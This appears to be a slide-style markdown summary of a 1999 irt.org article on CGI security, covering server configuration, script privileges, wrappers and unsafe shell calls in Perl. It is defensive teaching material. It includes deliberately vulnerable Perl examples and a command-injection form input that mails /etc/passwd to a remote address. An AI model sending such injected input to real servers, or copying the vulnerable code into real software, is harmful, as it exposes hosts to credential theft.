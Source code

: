 ###### Thanks to irt.org Pankaj Kamthan
###### Published on 19 September 1999
###### https://www.irt.org/articles/js184/index.html

# Common Gateway Interface(CGI) Security: Better Safe than Sorry
### Presented by: Jared Knutson

## Introduction
CGI is the first and remains one of the most widely-used means of extending Web servers by interfacing external applications.

CGI interfaces can compromise a Web server's security ala the host running it.


## Questions

- What type of potential CGI security problems exist? 
- How do they arise? 
- What can be the consequences of these problems? 
- How, and to what extent, can these problems be eliminated?

## Origins

1. The User. A person including an intruder (such as a hacker, masquerader, counterfeiter, an eavesdropper) or a program (such as a virus).
2. HTML form or searchable index.
3. HTTP and CGI protocols.
4. The CGI script.
5. Compiler/interpreter that runs the CGI script (which depends on the language the script is written in).
6. External data (that comes from the user in 1. above).
7. External programs that the script calls.
8. Client-side techniques, such as JavaScript, used in conjunction with the CGI.
9. The Web browser.
10. The Web server.

## Figure

![alt text][figure1]

[figure1]: file:///Users/drednaut/Desktop/cgi_figure.gif
Figure 1. CGI Communication between the Web Client and Server.

## CGI Security Holes

1. Unintentionally leaking information about the host system.
2. Forms which use user input may be vulnerable to Remote Code Execution(RCE).

## Motives for Attacking CGI

- Critial files containing sensitive information.
- Content sold to competitor.
- Information about the host machine is obtained allowing unauth'd users access to the system.
- Unauth'd users use RCE to modify files on the server.
- The site is used to launch attacks against other sites.

## Server-Side Configuration for CGI Scripts

- Do not generate dynamically produced indecies.
- Keep all .cgi scripts contained in the cgi-bin directory.
- Do not serve any other document besides \*.cgi from within the cgi-bin directory tree.

## CGI Script Privileges

## 007 can not be Trusted

- Make sure scripts only have the required permissions
- Use ```chmod``` to set the correct permissions in a UNIX system.
- Do not let others write to the server.

## "Nobody" can be a Threat to Everybody

- A subverted CGI script running as "nobody" still has enough privileges to mail out the system password file
- A buggy CGI script can leak sufficient system information to compromise the host.

## CGI Scripts with Extra Privileges

- Only where absolutely required let a script run as suid.
- Avoid "setuid root".

## CGI Wrappers

- CGI scripts can be made safe by placing them inside a CGI "wrapper" script.
- There are 3 major wrappers in UNIX:
    - CGIwrap
    - SBOX
    - suEXEC

## HTML Forms and the Script

### Sanity Checks

- You should perform sanity checks, such as, all HTML form elements should return values.

### Script Invocation

- Use the ```HTTP REFERER``` environment variable, which provides the url of the document that the browser points to before accessing the CGI script.

### Hidden Variables

- Hidden variables should not be relied upon for security.
- Can be seen in the source code.

## CGI Scripts Calling External Programs

### Information (Over)exposure

- Some UNIX commands should never be used in a CGI script because they tend to leak information about the server to the user.
- These commands include, but are not limited to:
    - finger
    - w
    - ps

### Backtick Quotes

Backtick quotes (`...`), are used in Perl for capturing the output of programs as text strings, and are dangerous.

```print `/path_to/finger $input ('user_input')`;```

expects the input to be somebody's username, but may not be the case.

### Calling Shell Commands eval(), exec(), system()

These commands can do alot of damage.

For example, here is a Perl script that tries to send mail to an address indicated in a fill-out form:

```perl
$mail_to = $get_input; # read the address from form
open(MAIL,"| /path_to/sendmail $mail_to");
print MAIL "To: $mail_to\nFrom: somebody\n\n Hello\n";
close MAIL;
```
The problem is in the piped ```open()``` call. The script author assumed that the contents of the ```$mail_to``` variable will always be just an e-mail address.

However if the following is entered:

```
nobody@nowhere;mail somebody@somewhere</etc/passwd;
```

Unintentionally, ```open()``` has mailed the contents of the system password file to the remote user, opening the host to a password cracking attack.

This can be avoided using the ```-t``` flag to ignore the address given on the command line and take the To: address from the email handler.

### Exposing External Data to the Shell

An example of this is:

```perl
system ("/path_to/finger $user_input");
```

The problem is that any shell metacharacters can ber passed through it. The ist of shell metacharacters is extensive:

```
&;`'/"|*?~<>^()[]{}$\n\r
```

You should always scan arguments for shell metacharacters and remove them.

This can be done using regular expressions

The mail script can be changed to the following to only allow valid email address format.

```perl
$mail_to = $get_name_from_input;
unless ($mail_to =~ /^[\w.+-]+\@[\w.+-]+$/) {
    die 'The address is not in form eistein@irt.org';
}
```

### Tainting

- Tainting is when an unchecked user supplied variable is passed to the command line.
    - Data from outside of the script
    - Environment variables
    - Command line array
    - Variables from standard input

In Perl 5 the ```-T``` flag can be used to check for tainted variables, and will not let it affect processes inside of the script.

Which can be enabled in the script by doing the following.

```#!/usr/local/bin/perl -T```

